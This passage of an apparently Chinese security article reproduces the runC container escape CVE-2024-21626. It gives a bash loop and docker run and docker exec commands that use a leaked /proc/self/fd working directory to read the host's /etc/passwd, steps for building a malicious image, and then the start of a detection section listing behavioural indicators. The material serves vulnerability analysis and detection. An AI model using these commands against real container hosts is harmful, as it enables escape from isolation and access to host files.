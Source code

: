 步骤1：首先根据下面的脚本确定本机上泄露的文件描述符（通常是7或者8，对应在Dockerfile中指定WORKDIR，或者也可以在docker run命令中指定）  
```
#! /bin/bash
for i in {4..20}; do
docker run -it --rm -w /proc/self/fd/$i ubuntu:18.04 bash -c "cat /proc/self/cwd/../../../etc/passwd"
done
Dockerfile文件
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hiayDdhDbxUaaJ9AiaUkSIzggbzkKItrL5dFia9EyDrmoYVNkZzsCAXPV9WibaNHiaG9hm8dxXLGgeyuY1A0s0C2iaZQ/640?wx_fmt=png&from=appmsg "")  
  
图3 恶意镜像的Dockerfile文件  
  
步骤2：构建恶意镜像  
  
docker build . -t cve-2024-21626  
  
步骤3：执行容器逃逸  
  
docker run -it --rm cve-2024-21626 bash  
  
如图4、图5所示，可以看出我们成功地访问到了宿主机目录文件，当前的工作目录指向的也是/sys/fs/cgroup。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hiayDdhDbxUaaJ9AiaUkSIzggbzkKItrL5ar1Z3ibiafolYV4HY3M5iaKFX2frWr1nF6y3YOgQHEWWXicXHzFic8r7P2A/640?wx_fmt=png&from=appmsg "")  
  
图4 攻击方式1下的容器逃逸  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hiayDdhDbxUaaJ9AiaUkSIzggbzkKItrL5CNjSQAQ5Rf07AbThjrBpTdDPqWKtibTNhMPGBZArBH9BmRYric6hhIog/640?wx_fmt=png&from=appmsg "")  
  
图5 攻击1下的容器工作目录  
  
**攻击方式2：runC exec容器逃逸攻击**  
  
步骤1：构建镜像并执行docker run -it --rm cve-2024-21626 bash命令将容器运行起来  
  
步骤2：调用runC exec命令并配合--cwd参数指定工作路径来实现容器逃逸sudo docker exec -it -w /proc/self/fd/8 8a6cff7af0be bash（其中8a6cff7af0be  
是cve-2024-21626 image的CONTAINER ID）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hiayDdhDbxUaaJ9AiaUkSIzggbzkKItrL5Pb2GR1R6sicK0HdDVE3PicgM8yg63MjCBHiaswUZvbTL7TuzvKgz8dgYg/640?wx_fmt=png&from=appmsg "")  
  
图6 攻击方式2下的容器逃逸  
  
  
  
四.  漏洞检测  
  
  
  
  
  
  
  
  
  
  
上述提出的漏洞利用过程，我们可以看出几个典型的行为特征，如[4]：  
  
1. 在容器中会产生当前工作目录（cwd）形如 /proc/self/fd/ 的进程。  
  
2. 在容器中会产生目标目录形如 /proc/self/fd/ 的 symlink(2) 或 symlinkat(2) syscall。  
  